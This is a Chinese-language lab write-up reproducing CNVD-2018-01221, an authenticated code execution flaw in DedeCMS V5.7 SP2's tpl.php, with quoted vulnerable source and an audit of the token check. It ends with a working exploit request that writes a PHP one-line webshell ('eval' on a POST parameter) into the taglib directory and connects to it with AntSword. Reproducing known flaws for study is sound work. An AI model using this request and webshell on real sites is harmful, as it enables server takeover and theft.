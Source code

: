 # CNVD-2018-01221DedeCMS后台代码执行漏洞

## 0x00 漏洞描述

织梦内容管理系统是一款PHP开源网站管理系统，DedeCMS V5.7 SP2版本中的tpl.php中存在代码执行漏洞,可以通过该漏洞在增加新标签中上传木马,获取webshell，该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。

## 0x01 影响范围

DedeCMS V5.7 SP2版本

## 0x02 环境复现

使用PHP study来搭建环境

DedeCMS V5.7 SP2版本下载地址：[http://www.dedecms.com/products/dedecms/downloads/](http://www.dedecms.com/products/dedecms/downloads/)

将文件解压移动到PHP study的网站根目录下，浏览器访问http://localhost:8080/dedecms/uploads/install/index.php安装

![1622425172513](1622425172513.png)

## 0x03 漏洞复现

因为该漏洞属于后台漏洞，先直接登入后台，用户名和密码默认为admin，织梦默认后台路径是/uploads/dede

![1622425399881](1622425399881.png)

![1622425428551](1622425428551.png)

根据公开的漏洞详情，打开模块->文件管理器->dede->tpl.php文件，开始代码审计T^T，以下代码对应源代码247行到282行

```php
/*---------------------------
function savetagfile() { }
保存标签碎片修改
--------------------------*/
else if($action=='savetagfile')
{
    csrf_check();
    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
    {
        ShowMsg('文件名不合法，不允许进行操作！', '-1');
        exit();
    }
    require_once(DEDEINC.'/oxwindow.class.php');
    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
    $content = stripslashes($content);
    $truefile = DEDEINC.'/taglib/'.$filename;
    $fp = fopen($truefile, 'w');
    fwrite($fp, $content);
    fclose($fp);
    $msg = "
    <form name='form1' action='tag_test_action.php' target='blank' method='post'>
      <input type='hidden' name='dopost' value='make' />
        <b>测试标签：</b>(需要使用环境变量的不能在此测试)<br/>
        <textarea name='partcode' cols='150' rows='6' style='width:90%;'>{dede:{$tagname} }{/dede:{$tagname}}</textarea><br />
        <input name='imageField1' type='image' class='np' src='images/button_ok.gif' width='60' height='22' border='0' />
    </form>
    ";
    $wintitle = "成功修改/创建文件！";
    $wecome_info = "<a href='templets_tagsource.php'>标签源码碎片管理</a> &gt;&gt; 修改/新建标签";
    $win = new OxWindow();
    $win->AddTitle("修改/新建标签：");
    $win->AddMsgItem($msg);
    $winform = $win->GetWindow("hand","&nbsp;",false);
    $win->Display();
    exit();
}
```

这一部分代码除了对写入的文件名字做了过滤以及在第7行存在csrf_check()函数，需要在请求中带有token参数外，并没有什么其他安全措施，导致我们可以任意写入代码，而在对应源代码133行到164行里发现当action==upload时，能够获取token值（token是服务端生成的一串字符串，以作客户端进行请求的一个令牌，当第一次登录后，服务器生成一个token值返回给客户端，之后客户端只需带上这个token值前来请求数据即可，无需用户名和密码）

```php
/*----------------------
function _upload() {}
上传新模板
-----------------------*/
else if ($action == 'upload')
{
    require_once(dirname(__FILE__).'/../include/oxwindow.class.php');
    $acdir = str_replace('.', '', $acdir);
    $win = new OxWindow();
    make_hash();
    $win->Init("tpl.php","js/blank.js","POST' enctype='multipart/form-data' ");
    $win->mainTitle = "模块管理";
    $wecome_info = "<a href='templets_main.php'>模板管理</a> &gt;&gt; 上传模板";
    $win->AddTitle('请选择要上传的文件:');
    $win->AddHidden("action",'uploadok');
    $msg = "
    <table width='600' border='0' cellspacing='0' cellpadding='0'>
  <tr>
    <td width='96' height='60'>请选择文件：</td>
    <td width='504'>
        <input name='acdir' type='hidden' value='$acdir'  />
        <input name='token' type='hidden' value='{$_SESSION['token']}'  />
        <input name='upfile' type='file' id='upfile' style='width:380px' />
      </td>
  </tr>
 </table>
    ";
    $win->AddMsgItem("<div style='padding-left:20px;line-height:150%'>$msg</div>");
    $winform = $win->GetWindow('ok','');
    $win->Display();
    exit();
}
```

因此先通过upload获取到token值，访问该url后查看页面源代码得到token值

![1622429155845](1622429155845.png)

需要上传action，token，filename，content值来构造payload，浏览器返回修改成功

![1622429861126](1622429861126.png)

浏览源代码知道文件写入到taglib目录下，接着去访问test.lib.php文件，发现php代码能够执行

![1622430010422](1622430010422.png)

尝试写入一句话木马，用蚁剑连接

```http
http://192.168.110.1:8080//dedecms/uploads/dede/tpl.php?action=savetagfile&token=ac0da42da8b176eeb2e1e8bba94eba6b&filename=shell.lib.php&content=<?php @eval($_POST['cmd']);?>
```

连接成功

![1622432169113](1622432169113.png)

## 0x04 参考资料

[https://www.jianshu.com/p/24825a2683e6](https://www.jianshu.com/p/24825a2683e6)

[https://www.cnblogs.com/yuzly/p/11326571.html](https://www.cnblogs.com/yuzly/p/11326571.html)